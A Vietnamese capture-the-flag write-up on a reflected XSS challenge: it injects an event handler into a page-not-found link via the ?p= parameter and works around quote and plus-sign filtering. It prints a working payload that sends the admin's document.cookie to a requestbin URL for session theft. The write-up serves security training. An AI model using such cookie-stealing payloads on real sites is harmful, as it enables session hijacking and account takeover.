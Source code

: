 <b>Reflected XSS</b>: Script nguy hiểm được chèn trực tiếp vào response của user, hacker cần  phải gửi link độc hại này cho user và lừa user nhấp vào link. Payload  được thực hiện trong cùng một request và response

Chall này cũng đã lưu ý rõ: admin sẽ không dại gì mà click vào link lạ được gửi đến, vậy ta không sử dụng `event` như `onclick` mà sẽ chọn `onmouseover` để thực hiện hành vi XSS

Khi truy câp vào bất cứ trang nào trên menu, thanh URL đều hiển thị như sau: `?p=page_name`, đây có vẻ là nơi XSS được, thử xem:

`?p=<script>alert(1);</script>`

Trang thông báo lỗi hiện ra:

`The page <script>alert(1);</script> could not be found.`

Để ý trong mã nguôn, dòng này được hiển thị như sau:

```html
The page <a href="?p=<script>alert(1);</script>"> <script>alert(1);</scipt> </a> could not be found
```

Điểm XSS khả thi chính là trong thẻ a này, ví dụ nếu ta sửa link thành

`?p="onmouseover="alert(1);`

thì dòng thông báo lỗi trên sẽ hiển thị như sau:

```html
The page <a href="?p="onmouseover="alert(1)"> <script>alert(1);</scipt> </a> could not be found
```

chính là thứ chúng ta cần: tạo 1 event để khi di chuột lên trên dòng đó sẽ thực thi đoạn code js, nhưng mã nguồn không hiển thị như ý muốn, có vẻ dấu " đã bị filter, thử với dấu nháy đơn thì ok rồi

Làm tương tự với bài `XSS stored`, tạo 1 requestbin bằng pipedream với payloads sau:

`?p='onmouseover='window.location="request_bin_link?cookie=".concat(document.cookie);`

tại sao phải dùng `concat`, vì dấu + đã bị filter mất rồi

Bấm nút `REPORT TO THE ADMINISTRATOR` và đợi 2p, pipedream sẽ hiện admin cookie

'onmouseover='alert(1)

"onmouseover="alert(1)



